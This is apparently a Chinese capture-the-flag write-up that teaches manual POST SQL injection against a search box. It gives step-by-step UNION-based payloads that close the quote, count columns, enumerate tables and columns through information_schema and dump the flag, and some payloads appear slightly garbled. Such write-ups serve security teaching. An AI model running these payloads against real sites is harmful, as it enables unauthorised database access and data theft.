 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQL注入 --手工post          # 标题 
subtitle:   post注入   #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入  
    
    
---
```


## 原理:

简单的说就是在post/getweb表单、输入域名或页面请求的查询字符串中插入SQL命令，最终使web服务器执行恶意命令的过程。
假设某网站页面显示时URL为`http://www.xxx.com?test=123` ，此时URL实际向服务器传递了值为123的变量test，这表明当前页面是对数据库进行动态查询的结果。由此，我们可以在URL中插入恶意的SQL语句并进行执行。

## 题目:

**一个简单的输入搜索框**


## 考察点：
**sql注入中的post注入。**

一般有两种方式：

第一种方式，通过burpsuit抓包存在一个文件中，然后通过sqlmap -r进行读取。

第二种方式，通过手工注入，构造`payload`，进行union查询。如果通过手工注入，怎么分析注入点，怎么构造payload，怎么获取表名列名，怎么读取数据呢？

## 解题过程：

**1.** 首先查看网页源代码，发现是post方法，果断打开hackerbar。post注入是通过对输入框进行传参，可以被带入数据库进行的查询，
post注入的两个条件：(1)用户可以控制传参，(2)用户输入的语句被带入数据库进行查询。

**2.** Post data 框 输入`search='`，发现页面出错，可知存在注入的可能。继续输入`search=' and 1=1`，发现依然报错，`search=' and 1=1#` 发现变回正常页面。证明存在注入点，可用'  #进行闭合。

如何理解所构造的payload？


OK,简单的解释一下SQL语句.我们搜索的内容是 `' and 1=1 # `,代入到数据库的语句是:` select * from XXX where search = ' ' and 1=1 #'`，搜索框开头输入的单引号闭合了原来前面的单引号，最后是一个#,注释了后面的单引号,数据库在执行语句的时候其实执行的是:`select * from XXX where content = ' ' and 1=1`,这个语句理解就很简单了。

**3.** 用`order by` 查询当前页面连接的列名个数：`search=' order by 1# `页面返回正常 ，直到4，页面开始出错，说明有3个。

**4.** 使用`union` 联合查询 显错点，输出点，语句：`search='  union select 1,2,3# `，页面爆出显位2，3。

**5.** OK,接下来的步骤就很容易了，利用hackerbar插件，构造`search= ' Union Select 1,CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION()),3# `,得到数据库名为news。

**6.** 接着获取表名，构造`search= ' Union Select 1,group concat(table name),3 from information schema.tables where table schema= 0x6E657773 # `，得到表名为**f1agfl4gher3。**
 注意：这里需要把数据库名称`news`做了一个16进制Hex编码，编码之后为`0x6E657773 `。

**7.** 同理获取列名：`search= ' Union Select 1,group concat(column name),3 from information schema.columns where table name=0x66316167666C346768657233)# ` ，得到列名为**h3r31sfl4g。**

**8.** 最后获取数据，`search= ' Union Select 1,h3r31sfl4g,3 from f1agfl4gher3 # `，得到flag！

**flag{sql_ information_ schema_ hack}**





[参考链接（一）](https://www.fujieace.com/penetration-test/mysql-manual-injection.html)

[参考链接（二）](https://blog.csdn.net/qq_42097777/article/details/89088142)

## 谢谢您的查阅，欢迎来访！
